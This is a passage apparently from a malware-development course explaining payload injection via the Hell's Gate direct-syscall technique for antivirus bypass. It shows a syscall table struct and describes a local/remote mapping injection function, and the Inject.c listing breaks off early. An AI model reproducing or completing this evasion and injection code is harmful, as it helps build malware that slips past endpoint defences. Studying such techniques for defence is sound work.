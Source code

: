 #### Hasher Results

Once compiled and ran, the program will generate the following results which should be copied to the `Common.h` file.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-116769871-25449179-cdfb-412b-899f-1744ac77246b.png)

Additionally, the new [VX_TABLE](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L14) structure definition must be updated to include the syscalls that will be utilized.

```c
typedef struct _VX_TABLE {

	VX_TABLE_ENTRY NtCreateSection;
	VX_TABLE_ENTRY NtMapViewOfSection;
	VX_TABLE_ENTRY NtUnmapViewOfSection;
	VX_TABLE_ENTRY NtClose;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;

} VX_TABLE, * PVX_TABLE;

```

### Payload Injection Via Hell's Gate

With Hell's Gate successfully set up, the payload injection implementation can be made. A new file will be created, `Inject.c` which is shown below.

The following points briefly explain the `Inject.c` file:

- `InitializeSyscalls` - This function initializes the global `g_Sys` variable of type `VX_TABLE` to be used later on.
    
- `RemoteMappingInjectionViaSyscalls` - This function supports both local and remote mapping injection via the `bLocal` parameter which is set to `TRUE` to inject the payload locally, or `FALSE` for remote injection.
    
    - If the `bLocal` parameter is set to `TRUE`, the `dwLocalFlag` variable will be set to `PAGE_EXECUTE_READWRITE` to be suitable for local payload execution, and the second `NtMapViewOfSection` will be avoided. But if `bLocal` is `FALSE`, the `dwLocalFlag` will remain `PAGE_READWRITE` and the function will run the second `NtMapViewOfSection` call to allocate memory remotely.
    - The `pExecAddress` variable is used to save the base address of the injected payload. It is equal to the base address of the locally injected payload (`pLocalAddress`) if the function is set to execute the payload locally, or the remote injected payload base address (`pRemoteAddress`) if the function is set to execute the payload remotely.
    - The `pExecAddress` variable will be then passed to the `NtCreateThreadEx` syscall to execute the payload whenever it was.

**Inject.c**

```c
#include <Windows.h>
#include <stdio.h>


#include "Structs.h"
#include "Common.h"

// global `VX_TABLE` structure
VX_TABLE 	g_Sys = { 0 };



BOOL InitializeSyscalls() {

	// Get the PEB
	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
```
